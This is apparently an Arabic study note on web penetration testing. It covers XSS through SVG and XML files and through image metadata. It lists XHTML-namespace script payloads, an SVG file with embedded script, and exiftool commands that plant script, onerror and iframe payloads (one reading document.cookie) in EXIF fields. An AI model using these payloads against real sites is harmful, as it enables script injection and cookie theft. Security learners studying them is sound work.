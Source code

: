# سيناريوهات استغلال SVG and XML
## اول سيناريو : الشرح الاساسي لاستغلال ال  SVG and XML
{  #XSS_Idea_for_SVG_tag /  #XSS_idea_XML }

![[2025-05-11 19-32-44.mkv]]





#### xml payload for xss

```bash
<x:script xmlns:x="http://www.w3.org/1999/xhtml">alert(document.domain)</x:script>
<x:script xmlns:x="http://www.w3.org/1999/xhtml">alert(1)</x:script>
أو لو انت جوه تعليق:
--> <x:script xmlns:x="http://www.w3.org/1999/xhtml">alert(1)</x:script>

```

#### svg payload for xss

```bash
<?xml version="1.0" standalone="no"?>  
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">  
<svg version="1.1" baseProfile="full" >  
<polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>  
<script type="text/javascript">  
alert(document.domain);  
</script>  
</svg>
```

----


## ثاني سيناريو : استغلال  Metadata XSS
{ #XSS_Idea_for_SVG_tag  }
#### الشرح:
![[2025-05-28 22-34-48.mkv]]

#### الاوامر اللي في الشرح :
```bash
exiftool -FieldName='<script>alert(1)</script>' image.jpg
exiftool -Model='<script>alert(1)</script>' image.jpg
exiftool -Make='<img src=x onerror=alert(1)>' image.jpg
exiftool -Comment='<svg/onload=alert(1)>' image.jpg
exiftool -Artist='<script>alert(document.cookie)</script>' image.jpg
exiftool -Copyright='<script>alert("xss")</script>' image.jpg
exiftool -UserComment='<script>alert("user")</script>' image.jpg
exiftool -Software='<iframe src=javascript:alert(1)>' image.jpg
exiftool -DateTimeOriginal='<script>alert("date")</script>' image.jpg
exiftool -GPSLatitude='<script>alert("lat")</script>' image.jpg
```

#### شرح الاداه الي اسمها [[ExifTool]]



----

## طب الموقع مش بيقبل رفع صوره (يعني مش في خانه upload) بس بيقبل وضع رابط url  
{ #XSS_Idea_for_SVG_tag }
ساعتها اعملك انت server وحط الصوره علي ال server وحط رابط ال server بتاعك في مكان الرابط

#### الشرح


